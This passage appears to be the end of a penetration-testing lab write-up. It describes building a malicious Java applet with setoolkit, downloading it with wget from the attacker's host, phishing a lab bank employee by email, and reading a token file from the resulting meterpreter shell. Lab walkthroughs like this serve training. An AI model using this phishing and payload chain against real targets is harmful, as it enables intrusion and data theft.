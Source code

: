 "Hi!

We have some problem with the certificate to signing java applets.

So, in the Java settings you need to add host 172.16.0.3 to the java exceptions. And you will see some java pop up notification, it is ok, put a tick and run it."

Seems interesting. We can create a Java applet which opens a meterpreter session. In setoolkit type this sequence:

1 – 2 – 1 – 1 – NO – 10.10.X.X – 2 – 1 – 1 – 443 – 1

This will create the files into /var/www/html. We need to upload the index.html and the .jar file into /var/tmp SSH server:

wget "http://10.10.72.110/indextut.html" wget "http://10.10.72.110/v4dv84e.jar" Send email to leroydeschamp@sas-bank.lab with http://10.10.X.X/index.html as subject and email text. Listen on port 443. When you get meterpreter session type:

shell

You will be prompted to Windows CMD. We need to find the token. Navigate to C:\Users\deschamp\Desktop. Then type:

dir

I get the list of files. There is token.txt.txt. Just execute:

type token.txt.txt

Lab finished!

## CONCLUSION

Ok guys, the guide terminates here. I hope you enjoyed my explanations, any suggestions are appreciated. You can contact me into Telegram EN channel (Cristiano).

(Source: https://github.com/jivoi/pentest/blob/master/writeups/TL8_WU_en_full.pdf)